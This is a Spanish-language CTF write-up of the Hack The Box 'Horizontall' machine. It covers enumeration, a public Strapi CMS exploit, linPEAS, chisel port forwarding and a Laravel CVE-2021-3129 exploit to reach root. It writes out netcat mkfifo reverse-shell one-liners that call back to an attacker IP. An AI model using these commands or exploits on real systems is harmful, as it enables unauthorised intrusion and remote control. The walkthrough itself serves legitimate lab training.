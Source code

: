 #  HORIZONTAL MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/1.PNG)


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 - v -n 10.10.11.105 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p22,80 -sV -sC 10.10.11.105 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/3.PNG)

## EXPLOTACION

Como tiene el puerto 80 abierto revisemos la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/4.PNG)

no encontramos nada interesante, veamos si podemos encontrar rutas potenciales:

```bash
wfuzz -c -t 100 --hw=33 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://horizontall.htb/FUZZ"
```

solo encontramos estas y todas muestran **forbidden**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/5.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/6.PNG)

intentamos buscar subdominios pero tampoco tuvimos exito:

```bash
wfuzz -c -t 100 --hw=43 --hc=400,404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -H "Host: FUZZ.horizontall.htb/" -u "http://horizontall.htb/"
```

no nos reporto nada, basicamente estamos jodidos.

En estas ocasiones puede ser que exita una ruta o subdominio pero no se encuentre en el diccionario, asi que es necesario inspeccionar el codigo fuente, porque puede que llamen a una URL interesante:

```bash
cul -s -k "http://horizontall.htb/" | grep http:
```

no da nada, intentemos entonces que archivos JS, ya que la ruta **/js** existe podriamos ver algun script interesante:

```bash
cul -s -k "http://horizontall.htb/" | grep js
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/7.PNG)

el que mas llama la atencion es el ultimo, veamos si podemos verlo desde el navegador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/8.PNG)

si podemos, pero vemos mucha informacion asi que filtremos por lo que nos interesa (URLs):

```bash
curl -s -k "http://horizontall.htb/js/app.c68eb462.js" | grep http:
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/9.PNG)

al filtrarlo vemos una ruta interesante: **http://api-prod.horizontall.htb/reviews**, vemos un nuevo subdominio, veamos la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/10.PNG)

vemos unas opiniones en formato json, si le quitamos el review vemos esto:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/11.PNG)

pues nada muy util, tocara enumerar un poco este nuevo subdominio. Busquemos rutas potenciales:

```bash
wfuzz -c -t 100 --hw=33 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://api-prod.horizontall.htb/FUZZ"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/12.PNG)

tenemos otros directorios veamos el directorio de **admin**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/13.PNG)

vemosun inicio de sesion, **strapi**, buscando en google di que es un CMS, podriamos buscar si hay vulnerabilidades para este CMS pero seria bueno encontrar la version especifica, lo podemos hacer de dos formas:

podemos ver la ruta **http://api-prod.horizontall.htb/admin/init** (investigado en google)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/14.PNG)

o su revisamos el codigo fuente daremos con un script llamado **/admin/main.da91597e.chunk.js**, si lo vemos desde el navegador y filtramos por **strapi** llegamos a esto:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/15.PNG)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/16.PNG)

ya que tenemos la version, busque una vulnerabilidad y di con esto:

[exploit](https://www.exploit-db.com/exploits/50239)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/17.PNG)

es un script en python3 que solo debemos proporcionarle la URL:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/18.PNG)

lo ejecutamos:

```bash
python3 strapi.py http://api-prod.horizontall.htb/
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/19.PNG)

estamos dentro pero te dice que es una bind shell y lo que ejecutemos se ejecutara pero no mostrara por pantalla el resultado, asi que tenemos que enviarnos una reverse shell de alguna forma, como no podemos ver que tiene la maquina intente varias formas de enviarme una reverse shell y esta funciono:

[MonkeyPentester reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.115 4545 >/tmp/f
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/20.PNG)

hagamos un tratamiento de la TTY:

```bash
script /dev/null -c bash
Ctrl Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/21.PNG)

## ELEVACION DE PRIVILEGIOS

Realizamos la enumeracion basica del sistema pero no vio mucho, pasemosnos el linPEAS y veamos que hay:

[LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

```bash
cat linpeas.sh | sh
```

de toda la salida en pantalla lo que llama la atencion es lo siguiente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/22.PNG)

El puerto 8000 esta abierto localmente y no sabemos que corre ahi, lo hubieramos podido ver tambien con:

```bash
netstat -antp
```

necesitaremos hacer port forwarding para ver que hay en ese puerto, yo usare chisel para ello:

[chisel](https://github.com/jpillora/chisel)

kali:

```bash
./chisel server -p 4444 --reverse
```

victima:

```bash
./chisel client 10.10.14.115:4444 R:3333:127.0.0.1:8000
```

ahora podemos enumerar el puerto 3333 de nuestro equipo para ver que es:

```bash
nmap -p3333 -sC -sV 127.0.0.1
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/23.PNG)

parece una pagina web, veamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/24.PNG)

Es una pagina hecha con laravel y ahi vemos una version: **Laravel v8 (PHP v7.4.18)**.

veamos si hay vulnerabilidades para esa version.

Doy con este [exploit](https://github.com/nth347/CVE-2021-3129_exploit).

probemoslo, ahi dice como usar:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/25.PNG)

ejecutamos y tenenmos RCE:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/26.PNG)

es un proceso que lo esta ejecutando root. spwanemos una shell con netcat:

```bash
./exploit.py http://localhost:3333 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.115 4646 >/tmp/f"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/27.PNG)

ahora podemos ver la otra flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/28.PNG)

